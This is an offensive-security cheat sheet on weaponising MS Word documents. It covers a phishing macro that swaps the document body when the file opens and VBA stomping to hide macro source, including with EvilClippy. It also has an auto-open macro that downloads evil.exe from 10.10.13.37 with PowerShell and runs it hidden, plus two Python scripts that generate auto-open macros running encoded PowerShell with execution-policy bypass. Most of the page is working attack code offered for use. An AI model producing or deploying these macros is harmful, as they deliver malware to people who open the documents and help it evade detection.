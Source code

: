 # MS Office




## MS Word Document with Switcheroo Text

1. Place "encrypted" data in a Word document after the pretext (random base64): `head -c 2K < /dev/urandom > rnd && base64 rnd`.
2. Create an AutoText: *Insert > Quick Parts > AutoTexts > Save Selection as `DecryptedBody` to AutoText Gallery*.
3. Create a macro to "decrypt" the body with readable content according to the phishing legend.

{% code title="DecryptPage.vba" %}
```vba
Sub Document_Open()
  DecryptPage
End Sub

Sub AutoOpen()
  DecryptPage
End Sub

Sub DecryptPage()
  ActiveDocument.Content.Select
  Selection.Delete
  ActiveDocument.AttachedTemplate.AutoTextEntries("DecryptedBody").Insert Where:=Selection.Range, RichText:=True
End Sub
```
{% endcode %}




## VBA Stomping



### Manually

1. Create a `.doc` file with a malicious VBA macro.
2. Open it with [FlexHEX](http://www.flexhex.com/download/): *File > Open > OLE Compound File*.
3. Open *Macros > VBA > NewMacros* file.
4. Locate the `Attribute VB_Name` ASCII string (starts with `\x41\x74\x74...`) and replace all the bytes with zeros till the end of the file: *Edit > Insert Zero Block*.
5. Save the `.doc` and exit.

Now the VBA source code is wiped and execution of macro will be performed via the P-code (if the victim's MS Word is the same).

{% hint style="info" %}
After the macro is executed this way MS Word will decompile the P-code and put the VBA source code back into the `NewMacros` file, so it will reappear in the VBA editor as well.
{% endhint %}



### EvilClippy

* [https://github.com/outflanknl/EvilClippy](https://github.com/outflanknl/EvilClippy)

```
PS > .\EvilClippy.exe -s fakecode.vba macrofile.doc
```

{% code title="DownloadWaitExec.vba" %}
```vba
Sub Document_Open()
  Hello
End Sub

Sub AutoOpen()
  Hello
End Sub

Sub Hello()
  MsgBox ("Hello, World!")
End Sub
```
{% endcode %}




## VBA Macros

Wait till a malicious binary is downloaded with PowerShell and execute it:

{% code title="fakecode.vba" %}
```vba
Sub Document_Open()
  hShellcodeRunner
End Sub
Sub AutoOpen()
  hShellcodeRunner
End Sub
Sub DownloadWaitExec()
  Dim str As String
  str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.13.37/evil.exe', 'evil.exe')"
  Shell str, vbHide
  Dim exePath As String
  exePath = ActiveDocument.Path + "\evil.exe"
  Wait (2)
  Shell exePath, vbHide
End Sub
Sub Wait(n As Long)
  Dim t As Date
  t = Now
  Do
    DoEvents
  Loop Until Now >= DateAdd("s", n, t)
End Sub
```
{% endcode %}




## Helpers

Generate a ready-to-paste malicios MS Word macro (execution is provided by VBA [Shell function](https://docs.microsoft.com/ru-ru/office/vba/language/reference/user-interface-help/shell-function)):

{% code title="gen_doc_autoopen_payload_vbshell.py" %}
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import sys
from base64 import b64encode
from argparse import ArgumentParser

parser = ArgumentParser()
parser.add_argument('pwsh_file', help='PowerShell script to execute')
parser.add_argument('--chunk-size', type=int, default=200, help='length of a payload chunk line')  # if less for big payloads, Windows can error out about "too many line continuations"
args = parser.parse_args()


def gen_payload_vbshell(pwsh_file, chunk_size):
  with open(pwsh_file, 'r', encoding='utf-8') as f:
    payload = f.read()

  payload = payload.encode('utf-16le')
  payload = b64encode(payload).decode()
  payload = [payload[i:i + chunk_size] for i in range(0, len(payload), chunk_size)]
  payload = [f'"{chunk}"' for chunk in payload]
  payload = ' _\r\n& '.join(payload)

  payload = f"""\
    Sub AutoOpen()\r
      Evil\r
    End Sub\r
    \r
    Sub Document_Open()\r
      Evil\r
    End Sub\r
    \r
    Sub Evil()\r
      Text = "powershell -exec bypass -nop -nologo -w hidden -enc " _\r
    & {payload}\r
      a = Shell(Text, vbHide)\r
    End Sub\
  """.replace('\t', '')

  return payload


if __name__ == '__main__':
  print(gen_payload_vbshell(args.pwsh_file, args.chunk_size))
```
{% endcode %}

Generate a ready-to-paste malicios MS Word macro (execution is provided by [WScript.Shell](https://docs.microsoft.com/ru-ru/windows-server/administration/windows-commands/wscript)):

{% code title="gen_doc_autoopen_payload_wscript_shell.py" %}
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import sys
from base64 import b64encode
from argparse import ArgumentParser

parser = ArgumentParser()
parser.add_argument('pwsh_file', help='PowerShell script to execute')
parser.add_argument('--chunk-size', type=int, default=50, help='length of a payload chunk line')
args = parser.parse_args()


def gen_payload_wscript_shell(pwsh_file, chunk_size):
  with open(pwsh_file, 'r', encoding='utf-8') as f:
    chunks = f.read()

  chunks = chunks.encode('utf-16le')
  chunks = b64encode(chunks).decode()
  chunks = [chunks[i:i+chunk_size] for i in range(0, len(chunks), chunk_size)]
  chunks = [f'"{chunk}"' for chunk in chunks]

  print('Sub AutoOpen()\r')
  print('  Evil\r')
  print('End Sub\r\n')

  print('Sub Document_Open()\r')
  print('  Evil\r')
  print('End Sub\r\n')

  print('Sub Evil()\r')
  print('  Dim Text As String\r')
  print('  Text = "powershell -exec bypass -nop -nologo -w hidden -enc "\r')

  for chunk in chunks:
    print(f'  Text = Text + {chunk}\r')

  print('  CreateObject("WScript.Shell").Run Text\r')
  print('End Sub')


if __name__ == '__main__':
  print(gen_payload_wscript_shell(args.pwsh_file, args.chunk_size))
```
{% endcode %}
